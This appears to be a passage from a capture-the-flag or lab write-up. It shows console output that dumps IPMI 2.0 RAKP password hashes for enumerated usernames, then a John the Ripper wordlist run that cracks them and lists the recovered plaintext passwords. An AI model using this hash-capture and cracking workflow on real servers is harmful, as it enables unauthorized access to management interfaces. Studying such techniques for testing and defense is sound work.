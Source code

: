 ```console
[*] The username: stacey is valid                                                  
[*] The hash for user: stacey
   \_ $rakp$a4a3a2a0069100006a158529acd67508f07ee1baf4f3047405713748d1f3c96fce750ddaed53d97ca123456789abcdefa123456789abcdef1406737461636579$20e16845a38ba75515c04c04b4fe60b307b27771
[*] The username: shirin is valid                                                  
[*] The hash for user: shirin
   \_ $rakp$a4a3a2a08891000097ed4ba598475e3c8635ddbbebf381ab96cf1402bb848e04a7803083b460d628a123456789abcdefa123456789abcdef140673686972696e$1f90925afbe2207117d0c46e0e48ac55dc3e3498
[*] The username: kaki is valid                                                  
[*] The hash for user: kaki
   \_ $rakp$a4a3a2a0029200004b297fa2f00a2f22af93271df209ece9e378caa3b31c8fec56f2ba4641230561a123456789abcdefa123456789abcdef14046b616b69$1cb6e5d353ae4c50618f7e308c4f216f65f8bc60
[*] The username: saman is valid                                                  
[*] The hash for user: saman
   \_ $rakp$a4a3a2a0849200003f319c3c775b90141e0487127ed2e4d4ed0d4816098c08a89262728d8af792a3a123456789abcdefa123456789abcdef140573616d616e$fe0532e93bdb6b9cbe427e480bb5bef3682a6091
[*] The username: kalie is valid                                                  
[*] The hash for user: kalie
   \_ $rakp$a4a3a2a00693000011ace79a2fc57ba26690d2aa0d98566e0883c34baeb6cc235c75b0e7711bbc37a123456789abcdefa123456789abcdef14056b616c6965$5cd9ca47b453b6500ccc7c6c142cf2170e7185b5
[*] The username: deshawn is valid                                                  
[*] The hash for user: deshawn
   \_ $rakp$a4a3a2a0829300008973c875d1aebccca50185e2686f315ecc3b39fc722a47f368d85be951b49fa9a123456789abcdefa123456789abcdef14076465736861776e$7128aebec58fc88f52384078d7b9c7b8cc8e44f4
[*] The username: mayeul is valid                                                  
[*] The hash for user: mayeul
   \_ $rakp$a4a3a2a004940000cfee0f153cafa0e8f202d443e3e17024653d77679d4094e5c13fd819ef7931caa123456789abcdefa123456789abcdef14066d617965756c$bb5934d0fa2e0122a09f5c52ad03fc65ece5017c
```

### Ta mère elle a cracké

```console
$ john --wordlist=rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 36 password hashes with 36 different salts (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
honda            (?)     
jesus06          (?)     
darell           (?)     
2468             (?)     
me4life          (?)     
evan             (?)     
TWEETY1          (?)     
120691           (?)     
081704           (?)     
122987           (?)     
batman!          (?)     
phones           (?)     
jiggaman         (?)     
sexymoma         (?)     
071590           (?)     
515253           (?)     
290992           (?)     
emeralds         (?)     
tripod           (?)     
castillo1        (?)     
numberone        (?)     
090506           (?)     
billandben       (?)     
milo123          (?)     
```